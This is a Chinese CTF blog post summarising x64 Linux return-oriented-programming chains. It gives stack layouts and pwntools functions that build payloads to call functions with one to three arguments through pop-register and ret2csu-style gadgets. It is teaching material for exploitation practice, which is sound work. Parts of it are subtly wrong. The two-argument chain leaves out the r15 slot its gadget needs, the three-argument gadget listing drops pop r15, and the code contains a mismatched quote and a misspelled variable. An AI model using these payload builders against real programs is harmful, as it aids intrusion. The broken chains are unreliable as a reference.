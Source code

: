 ```yaml
---
layout: post
title: linux x64 rop利用总结
categories:
  - ctf
  - pwn
  - 漏洞利用
url: 371.html
id: 371
comments: false
date: 2017-01-02 23:51:14
tags:
---
```


### \* 以下的rop gadget均可在linux x64 gcc编译的程序中找到

### 1\. 一个参数的函数调用

address   ----------  pop rdi, ret
value     ----------  rdi
func_addr ----------  plt  或者 函数首地址

不加最终的返回地址，大小为 **8*3** 字节

### 2\. 两个参数的函数调用

address   ----------  pop rsi, pop r15, ret
value     ----------  rsi
address   ----------  pop rdi, ret
value     ----------  rdi
func_addr ----------  plt 或者 函数首地址

不加最终的返回地址， 大小为**8*5**字节

### 3\. 三个参数的函数调用

address  -----------  pop rbx, pop rbp, pop r12, pop r13, pop r14,
value    -----------  rbx (0)
value    -----------  rbp (1)
value    -----------  r12 存放函数地址的地址（如got表项地址或者某个可写数据区的地址）
value    -----------  r13 (rdx param3）
value    -----------  r14 (rsi  param2）
value    -----------  r15 (edi param1, 注意低4字节有效）

address  -----------  mov , mov, mov, call, ...., ret 地址
value    -----------  padding
value    -----------  rbx (padding, 也可作为下一次继续调用三参数函数的值）
value    -----------  rbp (同上）
value    -----------  r12 (同上）
value    -----------  r13 (同上）
value    -----------  r14 (同上）
value    -----------  r15 (同上）

不加最终的返回地址，大小为**8*15**字节 在缓冲区溢出时，要注意对应的rop gadget的大小

### 最后附不同数量参数函数调用的代码：（pwntools）

def one\_param\_func\_payload(rdi\_rop, rdi, func_addr):
    payload = p64(rdi_rop)
    payload += p64(rdi)
    payload += p64(func_addr)
    return payload

def two\_param\_func\_payload(rsi\_rop, rsi, rdi\_rop, rdi, func\_addr):
    payload = p64(rsi_rop)
    payload += p64(rsi)
    payload += p64(rdi_rop)
    payload += p64(rdi)
    payload += p64(func_addr)
    return payload

def three\_param\_func\_payload(setreg\_rop, func\_addr\_addr, param1, param2, param3, callptr_rop):
    payload = p64(setreg_rop)
    payload += p64(0)
    payload += p64(1)
    payload += p64(func\_addr\_addr)
    payload += p64(param3)
    payload += p64(param2)
    payload += p64(param1)
    payload += p64(callptr_rop)
    payload += 'a'*(8*7)
    return payload

利用pwntools提供的ROP还可以更加精简上述调用，自动完成查找相应rop gadget的功能

binary_path = "./pwnme'
binary = ELF(binary_path)
rop = ROP(binary)

def one\_param\_func\_payload(func\_addr, param):
    rdi\_rop = rop.find\_gadget(\['pop rdi', 'ret'\]).address
    payload = p64(pdi_rop)
    payload += p64(param)
    payload += p64(func_addr)
    return payload

def two\_param\_func\_payload(func\_addr, param1, param2):
    rsi\_rop = rop.find\_gadget(\['pop rsi', 'pop r15', 'ret'\]).address
    payload = p64(rsi_rop)
    payload += p64(param2)
    payload += one\_param\_func\_payload(func\_addr, param1)
    return payload

利用[roputils](https://github.com/inaz2/roputils)可以完成更多参数函数payload的构建